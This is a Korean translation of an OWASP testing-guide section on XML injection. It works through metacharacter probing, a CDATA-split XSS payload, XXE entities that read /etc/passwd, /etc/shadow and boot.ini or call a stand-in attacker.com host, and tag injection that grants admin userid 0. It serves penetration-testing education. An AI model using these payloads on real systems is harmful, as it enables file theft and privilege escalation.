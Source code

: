 ============================================================================================
OTG-INPVAL-008
============================================================================================

|

XML 인젝션 테스트

|

개요
============================================================================================

XML 인젝션 테스트는 침투 테스터가 어플리케이션에 XML 문서를 삽입하려 할 때 입니다.
만약 XML 파서가 문맥 데이터를 검증하는데 실패하면, 테스트가 긍정적인 결과를 산출할 것입니다.
이 섹션은 XML 삽입의 실제 사례를 설명합니다.
우선 XML 스타일의 통신을 정의하고, 그 동작 원리를 설명합니다.
그런 다음, XML 메타 문자를 삽입하는 검색 방법에 대해 설명합니다.
첫번째 단계가 수행되면, 침투 테스터는 XML 구조에 대한 정보를 가지고, 
XML 데이터 및 태그를 인젝션 시도하는 것이 가능할 것입니다

|

테스트 방법
============================================================================================

아래 처럼 사용자 등록을 수행하기 위해 XML 스타일 통신을 사용하는 
웹 어플리케이션이 있다고 가정합니다.
계정이 생성이 되면, xmlDb 파일에 <user> 노드가 새로 추가됩니다.

.. code-block:: xml

    <?xml version=”1.0” encoding=”ISO-8859-1”?>
    <users>
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail>
        </user>
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail>
        </user>
    </users>


예를 들어, 다음 값이 있습니다.

.. code-block:: xml

    Username: tony
    Password: Un6R34kb!e
    E-mail: s4tan@hell.com

요청을 진행합니다.

.. code-block:: console

    http://www.example.com/addUser.php?
    username=tony&
    password=Un6R34kb!e&
    email=s4tan@hell.com

어플리케이션에서는 다음 노드가 빌드됩니다.

.. code-block:: xml

    <user> 
        <username>tony</username> 
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user>

다음 xmlDB에 추가될 것입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users> 
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user> 
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user>
            <username>tony</username>
            <password>Un6R34kb!e</password>
            <userid>500</userid>
            <mail>s4tan@hell.com</mail> 
        </user> 
    </users> 

|

취약점 존재 확인
-------------------------------------------------------------------------------------------

어플리케이션에 XML 삽입 취약점이 존재하는지 테스트하기 위해 XML 메타 문자를 삽입하는 부분을 
확인합니다.

**XML metacharacters**

- 싱글 쿼트: ' 

필터링하지 않을 경우, 인젝션된 값이 태그의 속성 값의 일부가 될 것입니다. XML 파싱 동안 예외가 발생될 수 있습니다.

예를 들어 다음과 같은 속성이 있다고 가정합니다.

.. code-block:: xml

    <node attrib='$inputValue'/>

그래서 만약 아래와 같이 삽입되면 다음과 같이 속성 값이 삽입됩니다.

.. code-block:: xml

    inputValue = foo'

    <node attrib='foo''/> 


|

- 더블 쿼트: " 

이 문자도 싱글 쿼트와 같으며, 속성 값이 더블 쿼트로 묶여 있는 경우 사용될 수 있습니다.

.. code-block:: xml

    <node attrib="$inputValue"/> 

그래서 만약 아래와 같이 삽입되면 다음과 같이 속성 값이 삽입됩니다.

.. code-block:: xml

    $inputValue = foo" 

    <node attrib="foo""/> 


|

- 부등 기호: >, < 

다음과 같이 입력 부분에 개방 또는 폐쇄 괄호를 추가합니다.

.. code-block:: xml

    Username = foo< 

어플리케이션에 다음과 같이 빌드됩니다.

.. code-block:: xml

    <user> 
        <username>foo<</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user> 

|

- 주석 태그: <!--/--> 

해당 문자열은 주석의 시작과 종료로 해석됩니다. 

.. code-block:: xml

    Username = foo<!-

어플리케이션에서 다음과 같이 입력되게 됩니다.

.. code-block:: xml

    <user> 
        <username>foo<!--</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user> 

|

- 앰퍼센드: & 

앰퍼센드는 엔티티를 표현하기 위한 XML 구문으로 사용됩니다. 
엔티티의 형식은 '&symbol;' 입니다.
앤티티는 유니 코드 문자 집합의 문자에 매핑된다.

[예제]

.. code-block:: xml
    
    <tagnode>&lt;</tagnode> 

위 문자는 '<' 로 표현됩니다.

만약 '&' 가 &amp; 로 자체 인코딩되지 않아, XML 인젝션을 테스트하는 데 사용됩니다. 

사실상, 만약 입력이 다음과 같다면 새로운 노드가 아래와 같이 생성될 것입니다.

.. code-block:: xml

    Username = &foo 


.. code-block:: xml

    <user> 
        <username>&foo</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid> 
        <mail>s4tan@hell.com</mail> 
    </user> 

|

- CDATA section delimiters: <![CDATA[ / ]]> 

CDATA 섹션은 마크업으로 인식될 수 있는 문자를 포함하는 텍스트 영역을 빠져나가는데 사용됩니다.
즉, CDATA 섹션에 둘러싸인 문자는 XML 파서에 의해 해석되지 않습니다.

예를 들어, 만약 텍스트 노드에 '<foo>' 문자를 표현해야 한다면, CDATA 섹션을 사용하면 됩니다.

.. code-block:: xml

    <node>
        <![CDATA[<foo>]]> 
    </node>

위의 '<foo>' 문자열은 파싱되지 않고 표현될 것입니다.

만약 노드가 다음 방법으로 빌드되어 있다면, 태스터는 

.. code-block:: xml

    <username><![CDATA[<$userName]]></username> 

CDATA 문자열 끝에 ']]>' 문자열을 삽입할 수 있습니다.

.. code-block:: xml

    userName = ]]> 

this will become: 

.. code-block:: xml

    <username><![CDATA[]]>]]></username> 

CDATA 태그와 관련해서 또 다른 예제로 HTML 페이지를 생성할 수 있는 
XML 문서라고 가정해봅시다.

이 경우에는, CDATA 섹션이 필터링 목록에 없을 경우 CDATA를 통해 우회할 수 있습니다.
아래 구체적인 예를 살펴봅시다.

.. code-block:: xml

    <html>
        $HTMLCode
    </html> 

공격자는 다음과 같은 입력을 제공할 수 있습니다.

.. code-block:: xml

    $HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>
    alert('xss')<![CDATA[<]]>/script<![CDATA[>]]> 

그리고 다음 코드를 포함합니다.

.. code-block:: xml

    <html>
        <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/ script<![CDATA[>]]> 
    </html> 

아래와 같이 CDATA 섹션은 제거되고, 다음 HTML 코드가 생성되게 됩니다.

.. code-block:: xml

    <script>alert('XSS')</script> 

결과적으로 XSS 취약점이 발생하게 됩니다.


**External Entity:**

유효한 엔티티의 집합은 새로운 엔티티를 정의하여 확장될 수 있습니다. 
만약 엔티티의 정의가 URI 라면, 엔티티는 외부 엔티티라고 합니다.
다른 구성이 없는 한, 외부 엔티티가 URI(로컬 머신 또는 원격 시스템 파일)에 의해 
지정된 리소스에 강제 접근합니다.
이 동작은 XML 외부 엔티티(XXE) 공격에 노출됩니다.

XXE 취약점을 테스트하기 위해서는 다음 입력을 사용할 수 있습니다. 

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ 
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://dev/random" >]><foo>&xxe;
    </foo> 

이 테스트에서 만약 XML 파서가 /dev/random 파일 목록으로 엔티티를 대체하려고 하면,
웹 서버가 종료될 수도 있습니다.

또 다른 유용한 테스트 방법입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://etc/passwd" >]><foo>&xxe;</foo>
    
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://etc/shadow" >]><foo>&xxe;</foo>
    
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file://c:/boot.ini" >]><foo>&xxe;</foo>
    
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt">]><foo>&xxe;</foo> 

|

태그 인젝션
-------------------------------------------------------------------------------------------

첫번째 단계가 수행되면, 테스터는 XML 문서의 구조에 대한 정보를 얻을 것입니다.
그리고나서, XML 데이터와 태그를 삽입할 수가 있습니다.
아래에서 권한 상승 공격이 발생할 수 있는 방법을 예제로 보여줄 것입니다.

아래와 같이 이메일에 xml 태그 값을 입력합니다.

.. code-block:: xml

    Username: tony 
    Password: Un6R34kb!e 
    E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com 

어플리케이션은 새로운 노드를 빌드하고 XML 데이터베이스에 그것을 추가할 것입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users> 
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user> 
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user>
            <username>tony</username>
            <password>Un6R34kb!e</password>
            <userid>500</userid>
            <mail>s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com</mail> 
        </user>
    </users> 

우리가 삽입한 사용자는 userid 태그에 0을 부여하여 관리자 권한을 획득하였습니다.

XML 문서가 다음 DTD에 의해 지정되었다고 가정합니다.

.. code-block:: xml

    <!DOCTYPE users [
        <!ELEMENT users (user+) >
        <!ELEMENT user (username,password,userid,mail+) >
        <!ELEMENT username (#PCDATA) >
        <!ELEMENT password (#PCDATA) >
        <!ELEMENT userid (#PCDATA) >
        <!ELEMENT mail (#PCDATA) > 
    ]> 

userid 노드가 cardinality 1으로 정의되어 있는 걸 체크합니다.
이 경우에는, 모든 처리가 발생하기 전에 XML 문서가 DTD에 대해 검증되는 경우, 
위 공격 방식은 동작하지 않습니다.

그러나, 테스터가 잘못된 노드 앞 일부 노드 값을 제어할 경우 문제는 해결될 수 있습니다.
사실상, 테스터는 주석의 시작과 종료를 주입하여 노드들을 주석처리 할 수 있습니다.

.. code-block:: xml

    Username: tony 
    Password: Un6R34kb!e</password><!--
    E-mail: --><userid>0</userid><mail>s4tan@hell.com 


.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users>
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user>
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password> 
            <userid>500</userid> 
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user> 
            <username>tony</username> 
            <password>Un6R34kb!e</password><!--</password> 
            <userid>500</userid> 
            <mail>--><userid>0</userid><mail>s4tan@hell.com</mail> 
        </user> 
    </users> 


|

Tools 
============================================================================================

- XML Injection Fuzz Strings (from wfuzz tool): https://github.com/xmendez/wfuzz

|

References 
============================================================================================

Whitepapers
------------------------------------------------------------------------------------------

- Alex Stamos: "Attacking Web Services": http://www.owasp.org/images/d/d1/AppSec2005DC-Alex_Stamos-Attacking_Web_Services.ppt 
- Gregory Steuck, "XXE (Xml eXternal Entity) attack": http://www.securityfocus.com/archive/1/297714 

|